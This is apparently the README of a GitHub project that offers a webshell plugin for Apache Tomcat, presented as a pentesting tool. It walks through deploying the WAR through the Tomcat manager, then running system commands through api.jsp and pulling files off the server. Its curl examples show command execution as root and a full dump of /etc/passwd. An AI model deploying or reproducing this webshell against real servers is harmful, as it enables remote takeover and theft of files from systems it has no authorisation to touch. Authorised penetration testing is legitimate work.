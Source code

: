 # Apache Tomcat webshell application for RCE

<p align="center">
  A webshell application and interactive shell for pentesting Apache Tomcat servers.
  <br>
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/Tomcat-plugin-webshell">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
  <br>
</p>

## Features

 - [x] Webshell plugin for Apache Tomcat.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine `?action=download`.

## Usage

**Requirements**: You need to have the credentials of an high privilege account of the Apache Tomcat server.

### Step 1: Access the Tomcat manager and upload the webshell plugin

First of all, you will need to access the Apache Tomcat `/manager` page at http://127.0.0.1:10080/manager/html, and connect to it with an high privilege account of the Apache Tomcat server.

![](./.github/manager.png)

Then choose the WAR file of the webshell plugin and click on "Deploy":

![](./.github/upload_a_plugin.png)

And the application is deployed:

![](./.github/webshell_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/webshell/api.jsp with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api.jsp' --data "action=exec&cmd=id"
{"stdout":"uid=0(root) gid=0(root) groups=0(root)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/webshell/api.jsp with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api.jsp' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/168489455-023b52c5-e8a9-4cd9-96ca-f26c14304236.mp4

## Development

If you need to compile this plugin, you can use the docker image provided, simply type `make` to build your plugin present in the `webshell` folder. Output WAR files will be put in the [`./webshell/dist/`](./webshell/dist/) folder.

![](./.github/compile.png)

Then if you need to test the plugin locally, you can start an Apache Tomcat instance with the test environnement in [./test_env/](./test_env/).

## References
 - https://linuxtut.com/create-a-java-servlet-and-jsp-war-file-to-deploy-to-apache-tomcat-9-in-gradle-eb464/
